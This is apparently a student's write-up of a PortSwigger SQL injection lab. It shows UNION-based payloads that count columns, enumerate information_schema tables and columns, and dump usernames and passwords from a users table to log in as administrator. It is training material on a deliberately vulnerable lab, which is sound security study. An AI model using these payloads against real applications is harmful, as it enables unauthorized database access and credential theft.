 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3cf9ef5a-c9ad-4800-949d-dd81ea9b8e22)

## Solution :

Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## You can list the tables that exist in the database, and the columns that those tables contain in a non-Oracle database.

### List the tables that exist in the database

```sql
SELECT * FROM information_schema.tables
```
### The columns that those tables contain

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
#### Finding out the number of columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/91fd27bc-97c1-4bbb-a82d-9a9316a61b17)

**2 NULL** returns no error , which means there are 2 columns in the database.

####  Finding out which columns contain text data -


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'Ananthan','red' --
```
both columns contains text data .

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/812af6a7-26c7-44db-9d2d-95bad1bfe428)


### Database contents-

#### Display the table present in the database-

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT table_name,NULL FROM information_schema.tables--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3264a60f-b42b-4bbe-8e32-8287d0000f60)


#### Display the column present in the database-

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_xtnjul'--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f389cc99-a5f5-43fd-a0b0-12ce138e257b)

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f2ff7eeb-59de-4259-811e-98274f44f627)

#### Retreive information from the columns username_wknxhc&password_jodrot from the table users_xtnjul -


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT username_wknxhc,password_jodrot FROM users_xtnjul--
```
Now we get the username and password of all users.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/08c71d5f-3634-4436-94f6-4f62aab40afc)

Successfully logged in administrator.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/49b0ee8c-b50e-49d5-b446-82dc4ffe9689)





